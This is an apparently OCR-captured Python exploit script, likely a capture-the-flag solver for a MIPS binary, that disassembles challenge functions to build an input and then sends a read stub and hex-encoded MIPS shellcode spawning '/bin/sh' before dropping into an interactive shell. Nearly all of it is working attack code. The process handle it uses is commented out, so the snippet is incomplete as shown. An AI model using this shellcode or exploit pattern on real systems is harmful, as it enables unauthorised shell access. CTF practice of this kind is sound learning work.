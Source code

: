 ```python
if __name__ == "__main__":

    # filename = "code.3"
    # with open(filename, "rb") as f:
    #     elf = f.read()
    # r = process(f"qemu-mipsel -strace ./{filename}", shell=True)
    elf = get_binary()

    m = re.search(end_func_bytes, elf)
    assert m
    start = m.span()[1]
    code = elf[start:]

    funcs = []
    func = []
    insts = md.disasm_lite(elf[start:], 0)
    for inst in insts:
        func.append(inst)
        if inst[2] == "jr":
            funcs.append(func)
            if len(funcs) == 16:
                break
            func = []

    solution = b""
    for func in reversed(funcs):
        solution += solve_func(func)

    print(solution)

    r.send(solution)
    r.recvuntil("Name")
    r.send("A")
    sleep(0.5)
    read_shellcode = bytes.fromhex("00 01 06 20 A3 0F 02 24 0C 00 00 00")
    r.send(read_shellcode)
    sleep(0.5)
    shellcode = bytes.fromhex("00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 50 73 06 24 FF FF D0 04 50 73 0F 24 FF FF 06 28 E0 FF BD 27 D7 FF 0F 24 27 78 E0 01 21 20 EF 03 E8 FF A4 AF EC FF A0 AF E8 FF A5 23 AB 0F 02 24 0C 01 01 01 2F 62 69 6E 2F 73 68 00")
    r.send(shellcode)
    r.interactive()
```



